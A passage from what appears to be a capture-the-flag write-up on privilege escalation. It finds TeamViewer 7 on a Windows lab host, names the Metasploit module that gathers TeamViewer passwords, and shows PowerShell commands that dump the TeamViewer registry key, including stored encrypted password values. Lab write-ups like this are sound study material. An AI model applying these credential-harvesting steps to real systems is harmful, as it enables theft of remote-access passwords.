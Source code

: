 3,Shell as SYSTEM
By enumerate the `C:\Program Files` , There is no other 3-part application
![[Pasted image 20240914115547.png]]

But there is another file `TeamViewer 7.lnk` in the `C:\Users\Public\Desktop`
So this place, it would be a hint for us to find the `TeamViewer`
In the file path `C:\Program Files (x86)\TeamViewer\Version7` we can find all the files of `TeamViewer`.

```
There is a Metasploit module post/windows/gather/credentials/teamviewer_passwords. But since I like to avoid Meterpreter to see what’s going on under the hood, I’ll take a look at the source. There’s a list of registry keys, and the one that looks like version 7 is HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7. For each location, it looks for the following values:

OptionsPasswordAES
SecurityPasswordAES
SecurityPasswordExported
ServerPasswordAES
ProxyPasswordAES
LicenseKeyAES
```

```
cd HKLM:\software\wow6432node\teamviewer\version7

get-itemproperty -path .

StartMenuGroup            : TeamViewer 7
InstallationDate          : 2020-02-20
InstallationDirectory     : C:\Program Files (x86)\TeamViewer\Version7
Always_Online             : 1
Security_ActivateDirectIn : 0
Version                   : 7.0.43148
ClientIC                  : 301094961
PK                        : {191, 173, 42, 237...}
SK                        : {248, 35, 152, 56...}
LastMACUsed               : {, 005056B96DD8}
MIDInitiativeGUID         : {514ed376-a4ee-4507-a28b-484604ed0ba0}
MIDVersion                : 1
ClientID                  : 1769137322
CUse                      : 1
LastUpdateCheck           : 1704810710
UsageEnvironmentBackup    : 1
SecurityPasswordAES       : {255, 155, 28, 115...}
MultiPwdMgmtIDs           : {admin}
MultiPwdMgmtPWDs          : {357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77}
Security_PasswordStrength : 3
PSPath                    : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\wow6432node\teamviewer\vers
                            ion7
PSParentPath              : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\software\wow6432node\teamviewer
PSChildName               : version7
PSDrive                   : HKLM
PSProvider                : Microsoft.PowerShell.Core\Registry

```
